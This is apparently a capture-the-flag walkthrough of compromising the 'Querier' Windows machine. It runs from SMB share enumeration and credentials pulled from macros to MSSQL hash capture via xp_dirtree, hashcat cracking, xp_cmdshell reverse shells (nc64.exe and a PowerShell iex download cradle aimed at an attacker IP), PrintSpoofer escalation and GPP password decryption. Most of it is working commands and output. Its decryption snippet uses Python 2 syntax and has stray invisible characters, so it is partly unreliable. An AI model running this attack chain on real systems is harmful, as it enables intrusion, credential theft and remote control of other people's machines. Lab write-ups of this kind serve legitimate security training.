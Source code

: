 ```yaml
---
sort : 1
---
```


# Querier

PORT        STATE   SERVICE         VERSION
135/tcp     open    msrpc           Microsoft Windows RPC
139/tcp     open    netbios-ssn     Microsoft Windows netbios-ssn
445/tcp     open    microsoft-ds?
1433/tcp    open    ms-sql-s        Microsoft SQL Server 2017 14.00.1000.00; RTM
5985/tcp    open    wsman
47001/tcp   open    winrm
5985/tcp    open    http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp   open    http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0


```bash
$ smbclient -N -L \\\\IP

$ smbclient -N \\\\IP\ShareName

smb> get File.xlsm

# you can unzip the xlsm files !!!!!! 
$ unzip File.xlsm

# macros usually stored at xl/vbaProject.bin
$ strings xl/*.bin

# OR !! 
$ olevba File.xlsm 
# VBA MACRO ThisWorkbook.cls 
# in file: xl/vbaProject.bin - OLE stream: 'VBA/ThisWorkbook'
# - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

# ' macro to pull data for client volume reports
# '
# ' further testing required

# Private Sub Connect()

# Dim conn As ADODB.Connection
# Dim rs As ADODB.Recordset

# Set conn = New ADODB.Connection
# conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
# conn.ConnectionTimeout = 10
# conn.Open

# If conn.State = adStateOpen Then

#   ' MsgBox "connection successful"
 
#   'Set rs = conn.Execute("SELECT * @@version;")
#   Set rs = conn.Execute("SELECT * FROM volume;")
#   Sheets(1).Range("A1").CopyFromRecordset rs
#   rs.Close

# End If

# End Sub
# -------------------------------------------------------------------------------
# VBA MACRO Sheet1.cls 
# in file: xl/vbaProject.bin - OLE stream: 'VBA/Sheet1'
# - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
# (empty macro)
# +----------+--------------------+---------------------------------------------+
# |Type      |Keyword             |Description                                  |
# +----------+--------------------+---------------------------------------------+
# |Suspicious|Open                |May open a file                              |
# |Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
# |          |                    |used to obfuscate strings (option --decode to|
# |          |                    |see all)                                     |
# +----------+--------------------+---------------------------------------------+
```

the user is "Reporting"
it's password is "PcwTWTHRwryjc$c6"

## Connecting to MSSQL DB

```bash
$ impacket-mssqlclient USERNAME:'PASSWORD'@IP -windows-auth

$ impacket-mssqlclient Reporting:'PcwTWTHRwryjc$c6'@IP -windows-auth
# [-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.

# you should find a user with SA privilege
SQL> select IS_SRVROLEMEMBER ('sysadmin')
# ------   
#  0 

# there isn't any !! 

# we can steal hashes of the SQL service account by using xp_dirtree or xp_fileexist.


# and on another terminal 
$ impacket-smbserver share-kali . -smb2support

# then back to impacket-mssqlclient
SQL> xp_dirtree '\\IP_tun0\share-kali\any.txt'

# look at the smb-server you ran, this will show the NTLM hash of the user !! 

# [*] User QUERIER\mssql-svc authenticated successfully
# [*] mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:f439c56c09a064c19b40fee71273d309:01010000000000000097f8fed4d4d90104f8ab380c1da0d80000000001001000630048004e006500570042005900520003001000630048004e0065005700420059005200020010004e0050005800580067004d006a004100040010004e0050005800580067004d006a004100070008000097f8fed4d4d90106000400020000000800300030000000000000000000000000300000788328683007061b88c05e4481a96893d7adb2d4d910c47adf66d466f8b6f5530a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003600000000000000000000000000
# [*] Connecting Share(1:IPC$)
# [*] Connecting Share(2:share-kali)
# [*] AUTHENTICATE_MESSAGE (\,QUERIER)
# [*] User QUERIER\ authenticated successfully
# [*] :::00::aaaaaaaaaaaaaaaa


$ echo "mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:59e20e11c6e191c8ec687d9227d6f074:0101000000000000002f2676c5d4d90181d517003f90cf7e000000000100100041007a004800770071007700410079000300100041007a00480077007100770041007900020010007700580070004b0057004e004b004900040010007700580070004b0057004e004b00490007000800002f2676c5d4d90106000400020000000800300030000000000000000000000000300000788328683007061b88c05e4481a96893d7adb2d4d910c47adf66d466f8b6f5530a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003600000000000000000000000000" > hash

$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt # corporate568

$ impacket-mssqlclient mssql-svc:'corporate568'@IP -windows-auth
SQL> select IS_SRVROLEMEMBER ('sysadmin')
# ------   
#  1 

SQL> enable_xp_cmdshell # success !! 
SQL> xp_cmdshell "type ..\..\Users\mssql-svc\Desktop\user.txt"

# to get a reverse shell, and bypass the AV 
# install nc64.exe from github https://github.com/int0x33/nc.exe/
# download nc64.exe on the smb-server on the attacker machine.

SQL> xp_cmdshell "copy \\IP_tun0\share-kali\nc64.exe C:\Users\Public\nc64.exe"

# why we copied it to the Public folder ..... cuz it's mostly writable !! 

$ nc -lnvp 1234

SQL> xp_cmdshell "C:\Users\Public\nc64.exe -e cmd.exe IP_tun0 1234" 

C:\Windows\system32> # Good luck

C:\Windows\system32> whoami /all

C:\Windows\system32> whoami /priv
# PRIVILEGES INFORMATION
# ----------------------

# Privilege Name                Description                               State   
# ============================= ========================================= ========
# SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
# SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
# SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
# SeImpersonatePrivilege        Impersonate a client after authentication Enabled   ==> this always can be exploited 
# SeCreateGlobalPrivilege       Create global objects                     Enabled 
# SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### nishang reverse shell 

> https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

```tip
since Invoke-PowerShellTcp.ps1 is a module, running the reverse shell in one line could not work, so it's better to add the function you wanna call at the end of the module so you can run it directly !!

.EXAMPLE - add this line at the end
Invoke-PowerShellTcp -Reverse -IPAddress IP_tun0 -Port 4444
```

on 3 terminals

```bash
$ python3 -m http.server 4444
```

```bash
$ nc -lnvp 1234
```

```bash
SQL> xp_cmdshell "powershell -c iex(iwr http://IP_tun0:4444/shell.ps1)"
```

```note
some times due to windows firewall, you need to make your netcat listen on port 80 or 443 
```

### hoaxshell reverse shell

### reverse shell generator reverse shell


```tip
pick the method that bypasses the AV  
```

<!-- ## ntlm relay

## what is mssql-svc


type of windows accounts: 
* user aacount 
* machine account
* service account ======> mostly it has the SeImpersonatePrivilege enabled !! 

## SE impersonate

## access tockens exploits hack

### what are Access Tokens

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/access-tokens 

Each user logged onto the system holds an access token with security information for that logon session. The system creates an access token when the user logs on. Every process executed on behalf of the user has a copy of the access token. The token identifies the user, the user's groups, and the user's privileges. A token also contains a logon SID (Security Identifier) that identifies the current logon session.

When a local administrator logins, two access tokens are created: One with admin rights and other one with normal rights. By default, when this user executes a process the one with regular (non-administrator) rights is used. When this user tries to execute anything as administrator ("Run as Administrator" for example) the UAC will be used to ask for permission.
If you want to learn more about the UAC read this page. -->

```bash
$ nc -lnvp 1235
```

```powershell
C:\Windows\system32> PrintSpoofer64.exe -c "rev.exe IP_tun0 1235 -e cmd.exe"
```

```tip
PrintSpoofer :: used mostly when you have a service account
JuicyPotato  :: used mostly when you have a user account
```


## gpp vulnerability privilege escalation

```powershell
# After running Powerup

PS> cat ​'C:\ProgramData\Microsoft\Group
Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\G
roups\Groups.xml'
```

To decrypt the Administrator password

```python
from Crypto.Cipher import AES
from base64 import b64decode

cpassword = "CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ"

# From MSDN: http://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be%28v=PROT.13%29 #endNote2

key = ​"""
4e 99 06 e8 fc b6 6c c9 fa f4 93 10 62 0f fe e8
f4 96 e8 06 cc 05 79 90 20 9b 09 a4 33 b6 6c 1b
"""​.replace(​" "​,​""​).replace(​"\n"​,​""​).decode(​'hex'​)

# Add padding to the base64 string and decode it
cpassword += ​"="​ * ((4 - len(cpassword) % 4) % 4)
password = b64decode(cpassword)

# Decrypt the password
o = AES.new(key, AES.MODE_CBC, ​"\x00"​ * 16).decrypt(password)

# Print it
print​ o[:-ord(o[-1])].decode(​'utf16'​)
```

Good luck ^^

```bash
$ python3 psexec.py Administrator:​'MyUnclesAreMarioAndLuigi!!1!'​@IP
```

























